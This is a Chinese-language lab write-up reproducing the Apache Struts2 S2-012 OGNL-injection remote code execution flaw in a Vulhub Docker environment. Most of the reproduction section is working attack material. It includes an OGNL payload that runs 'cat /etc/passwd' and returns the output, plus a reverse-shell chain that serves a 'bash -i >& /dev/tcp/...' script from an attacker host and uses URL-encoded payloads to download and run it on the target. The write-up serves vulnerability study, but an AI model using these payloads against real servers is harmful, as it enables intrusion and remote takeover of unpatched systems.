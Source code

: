 # Struts2 S2-012 远程代码执行漏洞

## 漏洞描述

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

漏洞详情:

- http://struts.apache.org/docs/s2-012.html

## 影响版本

影响版本: 2.1.0 - 2.3.13

## 环境搭建

Vulhub执行以下命令启动s2-012测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-vps-ip:8080/index.jsp`即可进入上传表单页面。

## 漏洞复现

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：

![image-20220301173613307](./images/202203011736450.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22wget%22%2C+%22192.168.174.128%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22bash%22%2C+%22%2Fusr%2Flocal%2Ftomcat%2Fshell.sh%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D
```

成功接收反弹shell：

![image-20220301173937416](./images/202203011739511.png)